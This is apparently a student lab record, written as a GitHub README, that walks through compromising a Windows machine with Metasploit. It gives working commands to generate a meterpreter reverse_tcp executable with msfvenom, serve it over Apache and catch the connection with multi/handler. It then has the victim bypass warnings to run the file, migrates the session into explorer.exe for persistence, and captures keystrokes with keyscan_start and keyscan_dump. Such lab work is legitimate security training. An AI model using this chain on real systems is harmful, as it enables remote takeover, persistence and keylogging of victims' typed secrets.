EXP.NO:6
DATE:

# Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

# ALGORITHM:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## Commands:
```
ipconfig
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
cp fun.exe /var/www/html
sudo systemctl apache2 start
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
ps


```

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/241e38d4-48ea-4e84-844c-203800b748ab)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9a5df072-ea93-4d78-b19d-0b538abd2afe)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fa436c58-1533-42ad-953e-05aab7679b33)

Start apache server sudo systemctl apache2 start
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/79b3ed4f-2e95-4c10-9308-3c931e3f9b07)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fcc713e4-2884-489f-9682-8b418e6071df)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/afb1606a-460c-4142-840f-2c5eca6de9df)

ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/5485dcda-63dc-46fc-9e17-982b7fb666c1)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/e65719b5-a0a3-4791-8179-01f60ef680d4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9e462cee-0922-46b0-bbdc-5eec4b3493fb)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/465816f7-7f2d-4cd1-9ec1-a37730d2ac72)

On kali give the command exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9c28793a-9789-45b3-93b9-73328162f9a3)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/3ebff0be-9705-4b37-8d25-ee198512f4c2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/d4a87497-8634-494d-a4e8-f8d892cc7080)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/679e1a38-ac9a-4827-bceb-11eca119d56a)
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/f30636e6-c1b1-4f9f-ab43-ff1c400bafa5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/847f50fc-ae46-4a16-babf-63782184e0b4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

